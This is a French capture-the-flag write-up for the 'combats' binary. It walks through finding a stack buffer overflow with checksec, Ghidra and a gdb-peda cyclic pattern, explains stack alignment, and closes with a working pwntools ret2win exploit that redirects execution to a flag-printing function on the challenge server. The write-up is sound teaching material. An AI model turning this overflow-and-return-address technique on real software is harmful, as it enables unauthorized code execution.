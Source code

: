 # WriteUp

## Analyse de l'ELF

```bash
$ checksec combats
[*] '/tmp/combats'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

En décompilant via Ghidra, nous voyons 2 fonctions intéressantes, vulnerable et guerrier :

![Liste des fonctions](combats1.png)

La fonction main() ne semble pas appeler guerrier() :

![Décompilation de main()](combats2.png)

La fonction guerrier() est intéressante puisqu'elle nous permet d'exécuter un "cat flag.txt" :

![Décompilation de guerrier()](combats3.png)

La fonction vulnerable() déclare une variable de 128 octets mais semble en stocker  bien plus...

![Décompilation de vulnerable()](combats4.png)

Regardons cela dans gdb en insérant une large entrée :

```bash
gdb-peda$ pattern_create 256
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G'
gdb-peda$ r
Starting program: /tmp/combats
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Ceux qui osent défier l'esprit du combat doivent être prêts à tout risquer. Le moindre faux mouvement peut vous conduire à la défaite. Préparez-vous, car le combat sera rude.
> AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
RAX: 0x100
RBX: 0x0
RCX: 0x7ffff7ea07e2 (<__GI___libc_read+18>:     cmp    rax,0xfffffffffffff000)
RDX: 0x100
RSI: 0x7fffffffdbf0 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"...)
RDI: 0x0
RBP: 0x6c41415041416b41 ('AkAAPAAl')
RSP: 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
RIP: 0x401240 (<vulnerable+67>: ret)
R8 : 0xb8
R9 : 0x7ffff7fc9040 (<_dl_fini>:        endbr64)
R10: 0x7ffff7d925e8 --> 0xf001200001a64
R11: 0x246
R12: 0x7fffffffdda8 --> 0x7fffffffe02d ("/tmp/combats")
R13: 0x401241 (<main>:  push   rbp)
R14: 0x403df0 --> 0x401150 (endbr64)
R15: 0x7ffff7ffd040 --> 0x7ffff7ffe2e0 --> 0x0
EFLAGS: 0x10207 (CARRY PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x401239 <vulnerable+60>:    call   0x401070 <read@plt>
   0x40123e <vulnerable+65>:    nop
   0x40123f <vulnerable+66>:    leave
=> 0x401240 <vulnerable+67>:    ret
   0x401241 <main>:     push   rbp
   0x401242 <main+1>:   mov    rbp,rsp
   0x401245 <main+4>:   sub    rsp,0x10
   0x401249 <main+8>:   mov    DWORD PTR [rbp-0x4],edi
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdc78 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0008| 0x7fffffffdc80 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0016| 0x7fffffffdc88 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0024| 0x7fffffffdc90 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0032| 0x7fffffffdc98 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0040| 0x7fffffffdca0 ("AuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0048| 0x7fffffffdca8 ("AAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
0056| 0x7fffffffdcb0 ("ZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%G\205\224\372\310\313\351\274ą\224\062˂\371\274", <incomplete sequence \304>)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0000000000401240 in vulnerable ()
```

Nous voyons que nous parvenons à écrire sur $rsp à l'offset 136, cela signifie que nous contrôlons l'adresse de la fonction suivant l'exécution de la fonction vulnerable() (après son ret). Voyons à quel offset :

```bash
gdb-peda$ pattern_search
Registers contain pattern buffer:
RBP+0 found at offset: 128
Registers point to pattern buffer:
[RSI] --> offset 0 - size ~203
[RSP] --> offset 136 - size ~194
[...]
```

Nous devons aussi vérifier si la stack est bien alignée, en effet, si la valeur de $rsp n'est pas divisible par 0x10 (16 en hexadécimal), la suite de l'exécution ne se passera pas comme nous le souhaiterions en fonction de l'adresse de la fonction qui se retrouvera au sommet de la pile.

<details>
  <summary>** Pourquoi aligner la stack ? **</summary>

Lorsque nous exploitons une vulnérabilité de buffer overflow pour rediriger l'exécution vers une fonction spécifique comme ```guerrier()```, il est crucial de prendre en compte l'alignement de la pile (stack) pour assurer le bon fonctionnement du programme.

Dans l'architecture x86_64, la convention d'appel (ABI - Application Binary Interface) stipule que le pointeur de pile (```$rsp```) doit être aligné sur 16 octets avant l'appel d'une fonction. Cet alignement est nécessaire car de nombreuses instructions SSE et certaines fonctions de la bibliothèque standard C supposent que la pile est correctement alignée. Si cet alignement n'est pas respecté, cela peut entraîner des comportements indéfinis, des plantages ou des erreurs d'exécution.

Dans notre cas, en écrasant $rsp avec l'adresse de la fonction ```guerrier()```, nous redirigeons effectivement le flux d'exécution vers cette fonction. Cependant, le buffer overflow et l'écrasement du pointeur de pile peuvent désaligner la pile. Cela signifie que lorsque ```guerrier()``` est appelée, la pile n'est plus alignée sur 16 octets comme l'exige l'ABI.

Lorsque ```guerrier()``` exécute ```puts("Félicitations, jeune guerrier, votre bravoure mérite les honneurs...")```, cette fonction de la bibliothèque standard s'attend à ce que la pile soit correctement alignée. Si ce n'est pas le cas, elle peut fonctionner partiellement (afficher "Félicitations, jeune guerrier, votre bravoure mérite les honneurs...") mais rencontrer des problèmes lors d'appels internes ou de l'exécution d'instructions SSE, ce qui peut entraîner un arrêt du programme ou sa sortie prématurée après le ```puts()```.

Pour résoudre ce problème d'alignement, il est nécessaire de :

* Ajuster l'alignement de la pile : Modifier notre payload pour ajouter du remplissage (padding) afin de réaligner ```$rsp``` sur un multiple de 16 octets avant l'appel à ```guerrier()```. Cela garantit que toutes les fonctions appelées au sein de ```guerrier()``` trouvent la pile dans l'état attendu.
* Utiliser une autre méthode d'exploitation : Injecter directement l'adresse des instructions qui préparent les arguments pour ```system()``` et effectuer l'appel peut contourner le problème d'alignement, car nous contrôlons précisément l'état de la pile et pouvons nous assurer qu'elle est correctement alignée.

En résumé, le souci d'alignement de la pile provient du fait que les conventions d'appel en x86_64 exigent un alignement spécifique pour garantir le bon fonctionnement des fonctions. Ne pas respecter cet alignement lors de l'exploitation d'un buffer overflow peut conduire à des comportements imprévus ou à des plantages, ce qui nécessite des ajustements spécifiques dans notre méthode d'exploitation pour assurer la réussite de l'attaque.

</details>


```bash
gdb-peda$ p/x $rsp
$1 = 0x7fffffffdc78
```

0x7fffffffdc78 % 0x10 = 0x8, nous devrons donc aligner la stack avant d'appeler l'adresse d'une fonction, au hasard guerrier() 😅. Pour cela, il suffit d'exécuter une instruction ret avant de spécifier l'adresse de guerrier() dans le payload.

## Récupération d'un gadget ret

La pile étant non exécutable (NX) et l'ASLR étant sûrement activée, nous devons trouver un gadget ret dans la section statique du programme.

```bash
❯ ROPgadget --binary combats | grep ret
[...]
0x000000000040101a : ret
[...]
```

## Récupération de l'adresse de la fonction "guerrier"

```bash
❯ readelf -s combats | grep guerrier
    30: 00000000004011d8    37 FUNC    GLOBAL DEFAULT   14 guerrier
```

Il suffit donc de remplir le buffer avec 136 octets de n'importe quoi, puis l'adresse vers ret (0x40101a) pour aligner la pile puis l'adresse vers guerrier() (0x4011d8) pour qu'elle soit appelée.

## Exploit

```python
#!/usr/bin/env python3

import sys
from pwn import *

context(arch="amd64", os="linux", endian="little", word_size=64)

p = remote("challenges.hackagou.nc", 5003)

guerrier_addr = 0x4011d8
ret_addr = 0x40101a

payload = b'A' * 136
payload += p64(ret_addr)
payload += p64(guerrier_addr)

p.readuntil(b'> ')
p.sendline(payload)
p.interactive()
```
```bash
$ python pwn-combats.py
[+] Opening connection to challenges.hackagou.nc on port 5003: Done
[*] Switching to interactive mode
Félicitations, jeune guerrier, votre bravoure mérite les honneurs...
OPENNC{L3_GU3RR13r_c0mb47_4v3C_H0nN3uR.}
[*] Got EOF while reading in interactive
```
